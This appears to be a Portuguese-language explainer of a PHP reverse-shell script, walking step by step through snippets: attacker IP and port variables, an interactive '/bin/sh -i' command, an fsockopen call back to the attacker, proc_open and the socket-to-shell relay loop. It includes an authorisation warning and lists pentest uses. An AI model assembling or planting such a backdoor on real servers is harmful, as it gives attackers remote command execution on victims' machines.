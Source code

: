 # php-reverse-shell

Esse código PHP é uma shell reversa, ou seja, um tipo de backdoor que faz com que o servidor que executa o script PHP se conecte a um outro computador (atacante), oferecendo um terminal interativo remoto com o mesmo nível de privilégio do usuário do processo PHP (geralmente www-data, apache, etc.).

⚠️ AVISO IMPORTANTE
Esse código é perigoso e pode ser usado com fins maliciosos, embora também tenha aplicações legítimas em testes de segurança (pentest) com autorização. Nunca utilize este tipo de código em sistemas sem permissão explícita.

🔍 O que o código faz, passo a passo:
1. Configuração Inicial
php
Copiar
Editar
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // IP do atacante - deve ser alterado
$port = 1234;       // Porta onde o atacante escuta - deve ser alterado
set_time_limit(0) → desativa o limite de execução do script (ele roda indefinidamente).

ip e port definem para onde o script vai se conectar (máquina atacante).

2. Preparação do ambiente
php
Copiar
Editar
$shell = 'uname -a; w; id; /bin/sh -i';
Este é o comando inicial passado para o shell.

Ele exibe informações do sistema (uname, w, id) e inicia um shell interativo (/bin/sh -i).

3. Daemonização (opcional)
php
Copiar
Editar
if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    ...
}
Se possível, o script tenta se transformar em um processo daemon (em segundo plano), para:

Não ficar visível como processo filho de outro.

Evitar "zombies" (processos órfãos).

Se não conseguir, segue normalmente (e imprime um aviso).

4. Conectar ao atacante (reverse connection)
php
Copiar
Editar
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
Tenta abrir uma conexão TCP para o IP e porta especificados.

Esse será o canal de comunicação com o shell.

Se falhar, o script termina.

5. Abrir processo de shell
php
Copiar
Editar
$process = proc_open($shell, $descriptorspec, $pipes);
Executa o shell (/bin/sh -i) e conecta suas entradas e saídas aos pipes (como stdin, stdout e stderr).

Esses pipes serão manipulados pelo script para encaminhar dados entre o shell e o socket TCP.

6. Configura tudo como "não bloqueante"
php
Copiar
Editar
stream_set_blocking(..., 0);
Para evitar que o script trave esperando dados.

7. Loop de comunicação
php
Copiar
Editar
while (1) {
    ...
}
Dentro do loop:

Lê comandos recebidos do atacante pelo socket → envia para o shell.

Lê a saída do shell (stdout/stderr) → envia de volta pelo socket.

Em outras palavras, atua como um relay entre o atacante e o terminal da máquina vítima.

8. Encerramento
Se a conexão TCP for fechada ou o shell terminar, ele:

Fecha todos os pipes.

Fecha o socket.

Encerra o processo com proc_close.

9. Função auxiliar printit()
php
Copiar
Editar
function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
Serve para imprimir mensagens apenas se o processo não estiver daemonizado.

Ajuda a debugar durante o desenvolvimento ou uso manual do script.

🧠 Conclusão Técnica
Esse script PHP:

Cria um canal reverso de comunicação entre um servidor e um atacante.

Permite ao atacante executar comandos remotamente.

Não requer que o servidor aceite conexões, basta executar o script PHP.

É útil para quem tem acesso remoto limitado a uma aplicação web vulnerável e quer obter controle de sistema.

✅ Exemplos de uso legítimo (com permissão):
Testes de intrusão em aplicações web.

Simulações de ataque para validação de defesa.

Análise forense de comportamento de shells reversas.
